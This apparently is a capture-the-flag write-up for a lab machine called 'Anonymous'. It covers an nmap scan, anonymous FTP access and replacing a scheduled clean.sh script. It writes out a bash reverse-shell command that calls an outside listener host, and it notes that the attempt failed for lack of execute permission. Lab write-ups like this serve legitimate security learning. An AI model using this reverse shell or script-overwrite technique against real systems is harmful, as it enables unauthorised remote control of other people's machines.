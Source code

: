 # Anonymous v6
**IP:** _10.10.221.147_
I did a nmap scan and found:
> 21 (ftp), anonymous is allowed
> 22 (ssh)
> 139, 445 (smb)

I connected via ftp to the server. Here is what I found there in the scripts folder:
![ftp_server](./imgs/ftp_server.png)


I got these files.

*clean.sh*
![clean.sh](./imgs/clean.sh.png)

*removed_files.log*
![removed_files.log](./imgs/removed_files.log.png)

*removed_files.log* file is a part of *clean.sh* script. And if you look at the time when the *remove_files.log* was last changed you will notice that it was just changed, so we can suppose that *clean.sh* is scheduled to run (maybe every minute).<br>
We have permissions to put files on the ftp server.

I took the *clean.sh* file, changed it a little bit. Just added this line:<br>
`sh -i >& /dev/tcp/10.2.116.12/2222 0>&1`<br>
Connected to the ftp server, removed the original *clean.sh* and put my own. (Do not forget to set up nc listener.) The idea was that I would wait until the file would be executed and I would get a reverse-shell, but I did not work because the file does not have the permissions to be executed.